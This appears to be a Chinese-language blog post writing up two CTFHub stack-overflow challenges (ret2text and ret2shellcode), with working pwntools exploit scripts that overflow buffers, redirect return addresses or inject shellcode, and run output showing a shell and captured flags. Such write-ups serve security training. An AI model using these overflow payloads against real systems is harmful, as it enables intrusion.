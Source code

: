 ```yaml
---
layout: post
title:  "ctfhub堆栈溢出"
date:   2021-09-14
catalog:  true
tags:
    - pwn 
    - 堆栈溢出
---
```


# 一. ret2text


## 1.1 题目


是为了获取系统的shell指令


## 1.2 解题

把程序运行`./pwn`:

```
Welcome to CTFHub ret2text.Input someting:
11111111111111111
bye
```


使用Hopper进行反汇编:

![](/images/pwnstack/3035150269184.png)

对应上面的日志就是先打印了`Welcome...`, 再从终端请求输入，在打印`bye`


再看下输入开辟的内存打开：

![](/images/pwnstack/3333834826707.png)

是112，所以只要我们输入字符超过112个就会产生栈溢出；



在一次函数调用中，函数调用栈中将被依次压入：函数实参、返回地址、EBP。如果函数有局部变量，接下来就在栈中开辟相应的空间以构造变量。

![](/images/pwnstack/5913422951550.png)


所以根据上面的堆栈结构，我们需要修改返回地址；

则需要填充栈，即`112个byte + ebp`

 EBP 称为栈基址指针，用来指示当前栈帧的底部。

而我们的返回地址需要修改成多少？一开始说了是为了拿到shell命令，所以查看str为`/bin/sh`在哪调用

![](/images/pwnstack/2012892899954.png)


![](/images/pwnstack/3512821586596.png)

所以我们的修改地址为： `0x04007b8`

代码如下：

```
from pwn import*


#  本地测试
#  io = process("./pwn")
io = remote("challenge-f426b0bd3a230015.sandbox.ctfhub.com", 25812)
shell_addr = 0x04007b8
payload=b'a' * (0x70 + 8) + p64(shell_addr)
io.recvuntil("Welcome to CTFHub ret2text.Input someting:")
io.sendline(payload)
io.interactive()
```

注意这里加8， 因为64位系统是8个字节，32位系统为4个字节；

运行操作结果如下：

```
python3 ret2txt.py
[+] Opening connection to challenge-f426b0bd3a230015.sandbox.ctfhub.com on port 25812: Done
ret2txt.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Welcome to CTFHub ret2text.Input someting:")
[*] Switching to interactive mode

bye
$ ls
bin
dev
flag
lib
lib32
lib64
pwn
$ cat flag
ctfhub{455641201f706c2c32624438}
```



# 二. ret2shellcode

## 2.1 题目

构造shellcode获取系统shell

## 2.2 解题

![](/images/pwnstack/5120726133074.png)



大小只有16，却可以读0x400


堆栈：16个字节buf再加上ebp的8个字节总共24个字


再看看函数列表：

![](/images/pwnstack/808279947418.png)


没有system函数，所以只能自己去构造可以执行`/bin/sh`的函数，一般都会使用`shellcode`

一般的操作是先发送`shellcode` + `填充码` + `返回地址`， 而这返回地址一般是使用buf地址，即返回后立马去执行`shellcode`；


但目前构造出来的shellcode是48个字节，而我们的堆栈空间只有24个字节，如果还是把`shellcode`放在buf堆栈中则代码会被截断；



所以需要改变一个存放结构`填充码` + `返回地址` + `shellcode`，其中返回地址需要指向`shellcode`；

`shellcode`的地址为`堆栈首地址` + `堆栈大小的偏移` + `返回地址的偏移`


前面说了堆栈空间为24个字节（堆栈大小+ebp），返回地址占用8个字节存储空间，所以`shellcode`地址的为`堆栈首地址` + `32位偏移`


那堆栈地址是多少呢？(堆栈是动态分配的，所以是随机的)，但是代码中已经帮我打印出来了，所以只要获取就好了；

![](/images/pwnstack/740596535800.png)


```
from pwn import*

#  本地测试
#io = process("./pwn")
io = remote("challenge-1575ee6e7e162b62.sandbox.ctfhub.com", 22137)
io.recvuntil('[')
buf_addr = io.recvuntil(']', drop=True)
shell_code = asm(shellcraft.amd64.sh(), arch='amd64')
payload=b'a' * (0x10 + 8) + p64(int(buf_addr,16)+32) + shell_code
io.recvuntil("Input someting :")
io.sendline(payload)
io.interactive()
```

其中先需要把字符串地址通过`int(buf_addr,16)`转换为16进制；

所以其实`p64(int(buf_addr,16)+32)`是指向`shellcode`的首地址的；

测试结果如下

```
➜  pwn python3 ret2shellcode.py
[+] Opening connection to challenge-1575ee6e7e162b62.sandbox.ctfhub.com on port 22137: Done
ret2shellcode.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil('[')
ret2shellcode.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  buf_addr = io.recvuntil(']', drop=True)
b'0x7ffc5fec08e0'
ret2shellcode.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Input someting :")
[*] Switching to interactive mode
 
$ ls
bin
dev
flag
lib
lib32
lib64
pwn
$ cat flag
ctfhub{5685d744460e087734c0c246}

```